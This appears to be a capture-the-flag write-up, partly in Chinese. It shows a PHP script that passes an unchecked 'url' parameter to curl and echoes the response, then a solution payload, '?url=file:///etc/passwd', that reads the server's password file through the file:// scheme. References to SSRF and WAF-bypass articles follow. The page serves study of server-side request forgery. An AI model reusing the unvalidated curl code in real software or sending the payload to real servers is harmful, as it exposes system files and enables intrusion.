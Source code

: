 # Challenge 
```php 
<?php 
function curl($url){  
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    $re = curl_exec($ch);
    curl_close($ch);
    return $re;
}
$url = $_GET['url'];
echo curl($url);
?>
```

# Solution

payload

```
?url=file:///etc/passwd
```

利用 file:/// 协议查看目标服务器上的 passwd 文件

# Refference

+ [Curl 导致 SSRF 及 WAF 绕过方式](http://sec2hack.com/web/curl-ssrf-waf.html)
+ https://blog.csdn.net/Fly_hps/article/details/83046613